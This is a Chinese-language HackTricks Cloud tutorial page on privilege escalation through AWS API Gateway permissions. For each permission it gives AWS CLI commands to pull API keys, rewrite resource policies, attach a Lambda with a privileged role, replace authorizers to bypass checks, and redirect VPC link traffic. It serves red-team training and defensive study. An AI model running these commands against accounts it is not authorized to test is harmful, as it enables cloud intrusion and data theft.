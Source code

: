 # AWS - Apigateway提权

{% hint style="success" %}
学习并练习AWS黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并练习GCP黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享黑客技巧。

</details>
{% endhint %}

## Apigateway

有关更多信息，请查看：

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

拥有此权限，您可以生成已配置的API（按区域）的API密钥。
```bash
aws --region <region> apigateway create-api-key
```
**潜在影响：** 使用这种技术无法提升权限，但可能会访问到敏感信息。

### `apigateway:GET`

通过此权限，您可以获取配置的 API（按区域）生成的 API 密钥。
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**潜在影响:** 使用这种技术无法提升权限，但可能会访问到敏感信息。

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

拥有这些权限后，可以修改 API 的资源策略，使自己能够调用它并滥用 API 网关可能具有的访问权限（比如调用一个存在漏洞的 Lambda 函数）。

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**潜在影响：** 通常情况下，您可能无法直接使用此技术进行权限提升，但可能会访问到敏感信息。

### `apigateway:PutIntegration`，`apigateway:CreateDeployment`，`iam:PassRole`

{% hint style="info" %}
需要测试
{% endhint %}

拥有`apigateway:PutIntegration`，`apigateway:CreateDeployment`和`iam:PassRole`权限的攻击者可以**向现有API Gateway REST API添加一个具有附加IAM角色的Lambda函数的新集成**。攻击者随后可以**触发Lambda函数以执行任意代码，并可能访问与IAM角色关联的资源**。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：访问与Lambda函数的IAM角色关联的资源。

### `apigateway:UpdateAuthorizer`，`apigateway:CreateDeployment`

{% hint style="info" %}
需要测试
{% endhint %}

拥有`apigateway:UpdateAuthorizer`和`apigateway:CreateDeployment`权限的攻击者可以**修改现有的API Gateway授权者**，以绕过安全检查或在进行API请求时执行任意代码。

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**潜在影响**：绕过安全检查，未经授权访问 API 资源。

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
需要测试
{% endhint %}

拥有 `apigateway:UpdateVpcLink` 权限的攻击者可以**修改现有的 VPC 链接，将其指向不同的网络负载均衡器，从而将私有 API 流量重定向到未经授权或恶意资源**。
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**潜在影响**：未经授权访问私有 API 资源，拦截或干扰 API 流量。

{% hint style="success" %}
学习并实践 AWS 黑客技术：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习并实践 GCP 黑客技术：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 检查[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
